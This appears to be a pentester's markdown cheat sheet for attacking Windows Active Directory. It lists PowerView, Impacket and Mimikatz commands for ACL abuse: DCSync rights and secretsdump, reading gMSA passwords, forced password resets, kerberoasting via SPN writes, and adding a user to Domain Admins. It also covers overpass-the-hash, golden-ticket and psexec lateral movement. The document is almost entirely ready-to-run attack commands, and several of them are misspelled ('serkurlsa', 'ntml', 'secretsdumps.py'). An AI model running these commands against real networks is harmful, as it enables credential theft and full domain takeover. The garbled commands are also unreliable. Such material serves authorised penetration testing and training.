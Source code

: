 ```yaml
---
description: >-
  This section will guide the reader to perform windows active directory
  enumeration both credential and credential-less from the "kali" or "attacking"
  box as well as from a windows domain joined host
---
```


# Windows Active Directory

### Windows Active Directory

```
. .\PowerView.ps1
```

#### Abuse Weak Access Control Lists (ACLs)

Find ACLs of interest whether it be the current compromised user, or users found. start with current user.

{% code overflow="wrap" %}
```
Find-InterestingDomainAcl -ResolveGUIDs | where-object {$_.identityreferencename -like "*CompromisedUser*"}
```
{% endcode %}

{% code overflow="wrap" %}
```
Find-InterestingDomainAcl -ResolveGUIDs | where-object {$_.ActiveDirectoryRights -like "*GenericAll*"} | Where-Object {$_.identityreferenceclass -ne "computer"}
```
{% endcode %}

**Write DACL**

{% code overflow="wrap" %}
```
$SecPassword = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUser,$SecPassword
```
{% endcode %}

```
Add-ObjectACL -PrincipalIdentity compromiseduser -Credential $cred -Rights DCSync
```

```
secretsdumps.py $domain/user@$ip
```

**GetChangesAll (DCSync)**

```
secretsdump.py domain/user@ip
```

Or use Mimikatz

**ReadGMSApassword**

Remotely. _may need to use ntpdate $domain if you get clockscrew error_

```
python2 /opt/gMSADumper/gMSADumper.py -d $domain -u CompromisedUser -p Password
```

Locally with EXE

```
.\GMSAPasswordReader.exe --AccountName 'ReadGMSApassword_Rights_To_User'
```

**ForceChangePassword**

```
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

```
$LateralEscUserPass = ConvertTo-SecureString 'LateralEscUserPass' -AsPlainText -Force
```

{% code overflow="wrap" %}
```
Set-DomainUserPassword -Identity LateralEscUserName -AccountPassword $LateralEscUserPass -Credential $Cred
```
{% endcode %}

**GenericAll**

```
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity LateralEscUserName -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'password' -force)} -Credential $cred
```
{% endcode %}

**GenericWrite**

Use this for reverseshell using scriptpath=, enumeration, or use serviceprincipalname= for kerberoast

```ps1
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{serviceprincipalname='thescriptkid/thescriptkid'}
```
{% endcode %}

```
Get-DomainSPNTicket -Credential $Cred LateralEscUserName | fl
```

OR

{% code overflow="wrap" %}
```
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{scriptpath='C:\\path\\to\\script.ps1'}
```
{% endcode %}

**WriteOwner**

```ps1
$CompromisedUserName = 'CompromisedUserName'
```

{% code overflow="wrap" %}
```
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
```
{% endcode %}

{% code overflow="wrap" %}
```
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
```
{% endcode %}

{% code overflow="wrap" %}
```
Set-DomainObjectOwner -Credential $Cred -Identity "Domain Admins" -OwnerIdentity CompromisedUser
```
{% endcode %}

{% code overflow="wrap" %}
```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity CompromisedUser -Rights All
```
{% endcode %}

{% code overflow="wrap" %}
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CompromisedUser' -Credential $Cred
```
{% endcode %}

#### Overpass The Hash

```
serkurlsa:logonpasswords
```

Copy user's NTML hash

{% code overflow="wrap" %}
```
serkurlsa::pth /user:compromised_user /domain:domain.com /ntml:copied_hash /run:PowerShell.exe
```
{% endcode %}

```
net use \\lateral-machine
```

```
.\psexec.exe \\lateral-machine cmd.exe
```

#### Pass the Ticket

{% code overflow="wrap" %}
```
kerberos::golden /user:compromised_user /domain:domain.com /sid:domain-sid /target:web.domain.com /service:http /rc4:service_hash /ptt
```
{% endcode %}
